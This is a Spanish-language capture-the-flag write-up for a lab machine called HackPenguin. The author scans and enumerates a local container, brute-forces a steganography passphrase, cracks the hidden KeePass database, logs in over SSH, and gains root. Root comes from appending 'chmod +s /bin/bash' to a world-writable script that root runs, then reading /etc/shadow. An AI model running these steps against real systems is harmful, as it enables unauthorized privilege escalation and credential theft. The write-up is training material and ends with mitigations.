

# HackPenguin — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Mid | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio donde se practica esteganografía para el acceso a una base de datos de KeePass.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Steganography → Stegseek → KeePass Database Extraction → John the Ripper → SSH Access → Cron Job Enumeration → Writable Script Abuse → SUID Bash → Root**

## 1. Analisis y escaneo del objetivo.

Escaneo completo de puertos con `nmap`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-15 15:34 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
|_  256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: FE:19:46:FC:25:E5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Resultado: solo dos puertos abiertos, **SSH (22)** y **Apache (80)** mostrando la página default de Ubuntu, sin nada visible a simple vista.

## 2. Enumeracion WEB 

Fuzzing de directorios y archivos con `gobuster`, incluyendo extensiones de imagen y de KeePass por si algo estaba expuesto directamente:

```bash
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,jpg,png,zip,kdbx -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html,jpg,png,zip,kdbx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10671]
penguin.html         (Status: 200) [Size: 342]
penguin.jpg          (Status: 200) [Size: 231701]
server-status        (Status: 403) [Size: 275]
Progress: 1764464 / 1764464 (100.00%)
===============================================================
Finished
===============================================================

```
Se revisó `penguin.html`:


Sin pistas en el HTML más allá de confirmar que la imagen `penguin.jpg` es el vector a explorar.

## 3. Esteganografía

### 3.1 Análisis inicial de la imagen

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ wget http://172.17.0.2/penguin.jpg
└─$ exiftool penguin.jpg
ExifTool Version Number         : 13.55
File Name                       : penguin.jpg
File Type                       : JPEG
Image Width                     : 1600
Image Height                    : 1200
...
└─$ binwalk penguin.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

└─$ strings penguin.jpg | grep -i -E "pass|key|hint|flag"
(sin resultados)

└─$ steghide info penguin.jpg
"penguin.jpg":
  format: jpeg
  capacity: 13.3 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!

```
Sin metadata EXIF relevante, sin archivos embebidos detectables por `binwalk`, y `steghide` confirma que hay datos ocultos protegidos por passphrase. Se descarta la búsqueda manual y se pasa a fuerza bruta de diccionario.

### 3.2 Fuerza bruta con Stegseek


```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ stegseek penguin.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "database.kdbx".
[i] Extracting to "penguin.jpg.out".

```
Passphrase encontrada: **chocolate**. El archivo oculto dentro de la imagen resulta ser una base de datos de KeePass (`database.kdbx`), confirmando lo indicado en la descripción del laboratorio.

```bash

┌──(mariano㉿Kaotic)-[~]
└─$ mv penguin.jpg.out database.kdbx

```

## 4. Cracking de la base de datos KeePass

### 4.1 Generación del hash y cracking

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ keepass2john database.kdbx > kdbx.hash
└─$ cat kdbx.hash
database:$keepass$*4*17*ef636ddf*67108864*19*2*d83f1dd7...      

```
Hash KDBX versión 4 (Argon2, KDF intencionalmente pesado). Cracking con diccionario:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/hackpenguin]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt kdbx.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Will run 6 OpenMP threads
password1        (database)     
1g 0:00:00:05 DONE (2026-11-15 16:21) 0.1880g/s 5.639p/s

```
Contraseña maestra del KeePass: **password1**

### 4.2 Apertura de la base y extracción de credenciales



Credenciales obtenidas: **hackpenguin : pinguinomaravilloso123**


## 5. Acceso inicial (SSH)

```bash

┌──(mariano㉿Kaotic)-[~]
└─$ ssh hackpenguin@172.17.0.2

```
Login exitoso con las credenciales extraídas del KeePass. La shell inicial llega como `sh` básica (prompt pelado `$`), estabilizada con:

```bash

$ bash
hackpenguin@a2067791c96b:~$

```
## 6. Enumeración de privesc

Checklist estándar de enumeración Linux:

```bash
hackpenguin@a2067791c96b:~$ sudo -l
bash: sudo: command not found

hackpenguin@a2067791c96b:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

hackpenguin@a2067791c96b:~$ getcap -r / 2>/dev/null
(sin resultados)

hackpenguin@a2067791c96b:~$ cat /etc/passwd
(sin usuarios adicionales con shell interactiva)

```
Sin sudo, sin SUID explotables, sin capabilities. Se revisan los procesos en ejecución:

```bash

hackpenguin@a2067791c96b:~$ ps -ef | grep 1
root   1   0  /bin/sh -c service apache2 start && service ssh start && while true; do /bin/bash /home/hackpenguin/script.sh; done

```
Hallazgo clave: root ejecuta en **bucle infinito** un script ubicado en el propio home del usuario `hackpenguin`.

```bash

hackpenguin@a2067791c96b:~$ cat /home/hackpenguin/script.sh
#!/bin/bash

echo 'pinguino no hackeable' > archivo.txt

hackpenguin@a2067791c96b:~$ ls -la /home/hackpenguin/script.sh
-rwxrwxrwx 1 root root 56 Apr  4  2024 /home/hackpenguin/script.sh

```
Permisos `777` — el script es escribible por cualquier usuario, y root lo ejecuta constantemente. Requisitos cumplidos para escalar privilegios.

## 7. Explotación → Root

Se inyecta un comando en el script para asignarle el bit SUID a `/bin/bash`:

```bash
hackpenguin@a2067791c96b:~$ echo 'chmod +s /bin/bash' >> /home/hackpenguin/script.sh
```

Se espera al próximo ciclo del bucle (inmediato, corre constantemente):

```bash
hackpenguin@a2067791c96b:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

El bit SUID (y SGID) quedó seteado. Se ejecuta bash preservando privilegios:

```bash
hackpenguin@a2067791c96b:~$ /bin/bash -p
hackpenguin@a2067791c96b:~# id
uid=1000(hackpenguin) gid=1000(hackpenguin) euid=0(root) egid=0(root) groups=0(root),1000(hackpenguin)
hackpenguin@a2067791c96b:~# whoami
root
```

El flag `-p` es necesario: sin él, bash detecta que el UID real (`hackpenguin`) no coincide con el UID efectivo (`root`) y renuncia automáticamente a los privilegios elevados por seguridad.

Verificación final de acceso root (lectura de un archivo restringido):

```bash
hackpenguin@a2067791c96b:~# cat /etc/shadow
root:*:19780:0:99999:7:::
...
hackpenguin:$y$j9T$...:19817:0:99999:7:::
```

Lectura exitosa sin "Permission denied" — acceso root confirmado (el prompt sigue mostrando `hackpenguin` porque es cosmético: refleja el UID real, no el EUID efectivo).

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron únicamente los puertos SSH y HTTP, con Apache mostrando la página default. Mediante **Gobuster** se descubrió una imagen (`penguin.jpg`) referenciada desde una página secundaria sin otro contenido relevante.

El análisis de la imagen reveló datos ocultos protegidos por **esteganografía (steghide)**, crackeados por diccionario con **Stegseek**, revelando un archivo de base de datos de **KeePass**. Dicha base, a su vez protegida por una master password, fue crackeada con **John the Ripper**, obteniendo credenciales SSH válidas.

Una vez dentro del sistema, la enumeración de procesos reveló que **root ejecutaba en bucle infinito un script con permisos 777** ubicado en el home del usuario. Aprovechando la escritura arbitraria sobre ese script, se inyectó un comando para asignar el bit **SUID** a `/bin/bash`, logrando una escalada de privilegios directa a `root`.

En conclusión, esta máquina combina esteganografía y cracking de credenciales como vector de acceso inicial con una escalada de privilegios clásica por permisos inseguros sobre un script ejecutado periódicamente con privilegios elevados.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Esteganografía con passphrase débil** | Permite ocultar y posteriormente recuperar archivos sensibles (credenciales, bases de datos) embebidos en imágenes públicamente accesibles. | Evitar exponer archivos con datos sensibles ocultos en recursos públicos; usar passphrases robustas y no basadas en diccionario. |
| **Master password débil en KeePass** | Permite crackear por diccionario una base de datos que debería proteger credenciales críticas. | Utilizar contraseñas maestras largas, aleatorias y fuera de diccionarios conocidos (rockyou, etc.). |
| **Script escribible (777) ejecutado por root en bucle** | Permite a cualquier usuario sin privilegios inyectar comandos arbitrarios que se ejecutarán con privilegios de root. | Restringir permisos de escritura sobre scripts ejecutados por procesos privilegiados (644 o más estricto, propietario root). |
| **Abuso del bit SUID** | Permite ejecutar Bash conservando privilegios elevados una vez obtenida escritura sobre el proceso privilegiado. | Evitar asignar permisos SUID a binarios innecesarios y auditar periódicamente estos archivos. |

## Recomendaciones generales

- No ocultar archivos con datos sensibles en recursos públicamente accesibles, incluso mediante esteganografía.
- Aplicar políticas de contraseñas robustas tanto a nivel de sistema como en gestores de contraseñas (KeePass).
- Revisar y restringir los permisos de archivos y scripts que son ejecutados periódicamente por procesos con privilegios elevados.
- Auditar periódicamente binarios con bit SUID/SGID en el sistema.
